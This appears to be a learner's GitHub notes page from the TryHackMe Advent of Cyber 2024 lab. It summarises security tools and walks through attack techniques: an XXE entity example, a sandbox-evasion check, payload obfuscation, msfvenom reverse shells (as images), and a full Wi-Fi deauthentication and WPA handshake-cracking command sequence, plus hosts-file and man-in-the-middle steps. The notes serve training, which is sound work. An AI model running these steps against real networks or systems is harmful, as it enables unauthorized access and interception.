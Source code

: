 <h1>
  
  [Advent of Cyber 2024](https://tryhackme.com/room/adventofcyber2024)
</h1>

Challenges delivered like an advent calendar with a storyline.<br>

<h2>Tools:</h2>

Elastic - cybersecurity threat detection, investigation, and response <br>
* learned how to filter for specific events and information <br>
* can use KQL (Kibana Query Language) to search <br>

CyberChef - simple and complex data manipulation <br>
* decode encoded data <br>

Atomic Red - collection of red team test cases that can be executed to test for detection gaps <br>
* runs on powershell
* if you want to run on linux and mac install PowerShell Core
* invoke-atomictest (technique)
* parameters:
  * -ShowDetails: shows details of each test
  * -Checkprereq: check that all required resources are in place
  * -testnumbers (# of test): specify which test you want done
  * -cleanup: clean up artifacts from the test
 
Event Viewer - Windows tool that displays information about significant events happening on computer <br>

Burp Suite - Web application security testing and penetration testing. Intercepting, analyzing and modifying network traffic <br>
* Set up intercepting and modifying website requests: <br>
  * Settings -> Allow Brup's browser to run without a sandbox
  * Proxy -> Intercept -> Open Browser
  * In browser -> browse website
  * If website doesn't load change settings -> proxy -> request interception rule (all check) -> response interception rule (all check)
  * Proxy -> HTTP History
  * Find request to exploit -> send to repeater -> edit request -> Send
  * If you want to repeat exploit multiple times:
    * in request code box press ctrl+r how many times you want to execute exploit
    * click + icon and create tab group
    * send group sequence(one at a time) or parallel (at same time)
 
YARA - Tool used to identify and classify malware based on patterns in its code. Done by writing custom rules to scan for specific characteristics like particular strings, file headers, or behaviours.

Floss - Tool that extracts obfuscated strings from program
* `floss.exe (file path)`
* can pipe results to a txt file

CloudWatch - Monitors applications at multiple levels in AWS environment

CloudTrail - Monitors actions in AWS environment

JQ - transform and filter JSON data to be more understandable
* `jq '(what to filter by)' file`
* can pipe to filter more

msfvenom - generate payload and encoding it to evade detection

nc - reads and write to network conection using TCP or UDP (network listener)

Risk Assessment - identify potential problems before they happen

Group Policy Management Editor - allows administrators to enforce policies across domain
* open with windows + r -> gpmc.msc

Azure

<h2>Languages:</h2>

XML (Extensible Markup Language) - language used to transport and store data
* Uses tags to label and organise information
* DTD (Document Type Definition) - set of rules that defines the structure of an XML document
* Entities - insertion of large chunks of data referencing internal or external files
  * ex: `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>`
  * reference entity: `&ext;`


<h2>Commands:</h2>

Kali Linux:
* file - determines the type of file and its data
* exiftool - software used for reading, writing, and editing metadata


PowerShell:
* Select-String - find string in file (PowerShell grep equivalent)
  * `Select-String -Path "(file path)" '(string)'`

<h2>Vulnerabilities:</h2>

XXE (XML External Entity) - Takes advantage of how XML handles external entities
* GOAL: Point external entity to malicious source or code
* Intercept requests with Burp Suite
* In browser -> browse website
* Proxy -> HTTP History
* Find request to exploit -> send to repeater -> edit request -> Send

Check if machine is a sandbox environment:
* Check if it has `C:\Program Files\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\ProgramFilesDir`
* If missing, machine is usually on sandbox or virtual environment
* Can make script to automate

Obfuscation - encode code that executes a vulnerability using base64 or other encoding
* Be careful of FLOSS

Reverse Shell - Target initiates connection to attacking machine
![create reverse shell payload using msfvenom](https://github.com/user-attachments/assets/aaabf49a-661d-49b7-bf64-e6b505b08884)

Malicious Document that uses macro:
![Malicious Macro Document](https://github.com/user-attachments/assets/99abee96-92ca-4d68-b979-2d85d6b9ed14)

Listen for incoming connections to establish exploit:
![Listen for incoming connections to establish exploit](https://github.com/user-attachments/assets/8d877b1c-bb98-4d60-9e12-1e82c6eac25e)

Wifi Attacks:
* sudo iw dev - shows wireless devices and their configuration
* sudo iw dev (device/interface) scan - scan nearby Wifi networks using the device
* sudo iw dev (device/interface) set type monitor - change device to monitor mode
  * turn device/interface off before doing this
  * turn device/interface on after
* sudo ip link set dev (device/interface) up - turn device on
* sudo ip link set dev (device/interface) down - turn device off
* sudo iw dev (device/interface) info - shows status of device
* sudo airodump-ng (device/interface) - shows list of nearby wifi networks and important details like encryption type
  * CAN QUITE WHEN FIND DESIRED NETWORK
* sudo airodump-ng -c (# channels to listen to) --bssid (bssid of network) -w output-file (device/interface) - targets specific network channel to capture traffic and save it files that start with output-file\
  * KEEP RUNNING
* Attack device connected to access point (BSSID under STATION section)
* open second terminal to launch deauthentication attack
  * using aireplay-ng to send deauthentication packets to disconnect wifi connection
  * capture reconnection 4-way handshake using airodump-ng that is being run
  * sudo aireplay-ng -0 1 -a (device/interface) -c (BSSID of device connected to access point)
* sudo aircrack-ng -a 2 -b (device/interface) -w /home/glitch/rockyou.txt output*cap - crack WPA/WPA2 passphrase using dictionary attack (using rockyou.txt word list)
* stop airodump-ng on first terminal
* wpa_passphrase MalwareM_AP (Pass Key) > config
* sudo wpa_supplicant -B -c config -i wlan2

Local DNS Override:
* Add website to/etc/hosts
* Doesn't alert external DNS servers
* Also may show that website uses self-signed certificate
* `echo "(Website IP) (website)" >> /etc/hosts`

Man in the Middle Attack on website using self-signed certificate:
* launch burp suite
* change settings
* don't need burp suite browser
* add ip of website and port to listen to on proxy listeners
* set own machine as gateway (other things not taught in module)
* run custom script that simulates user requests to website (have to use `chmod +x (script file)` on file before executing)
* burp suite will capture new user requests and shown as long as script and burp suite is running
